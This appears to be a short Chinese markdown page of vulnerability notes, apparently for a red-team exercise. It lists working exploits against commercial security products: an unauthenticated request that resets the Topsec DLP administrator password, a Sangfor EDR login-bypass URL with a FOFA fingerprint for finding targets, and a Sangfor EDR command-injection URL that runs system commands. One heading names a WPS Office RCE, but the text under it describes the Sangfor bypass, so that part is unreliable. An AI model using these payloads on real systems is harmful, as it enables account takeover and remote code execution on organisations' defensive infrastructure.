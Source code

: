 ![](/img/HW-Vuln/HW10.png)

### 天融信数据防泄漏系统越权修改管理员密码

&emsp;&emsp;无需登录权限，由于修改密码处未校验原密码，且`/?module=auth_user&action=mod_edit_pwd`，接口未授权访问，造成直接修改任意用户密码，默认superman账户uid为1。

```
POST /?module=auth_user&action=mod_edit_pwd
Cookie: username=superman;


uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

### WPS Office 图片解析错误导致堆损坏RCE

&emsp;&emsp;fofa指纹：`title="SANGFOR终端检测响应平台"`。

&emsp;&emsp;漏洞利用：`https://ip/ui/login.php?user=需登录的用户名`。例如`https://1.1.1.1:1980/ui/login.php?user=admin`，查询完毕以后即可登录平台。

### 深信服 EDR 漏洞

&emsp;&emsp;漏洞利用方法：`https://xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami`。

![](/img/HW-Vuln/HW11.png)
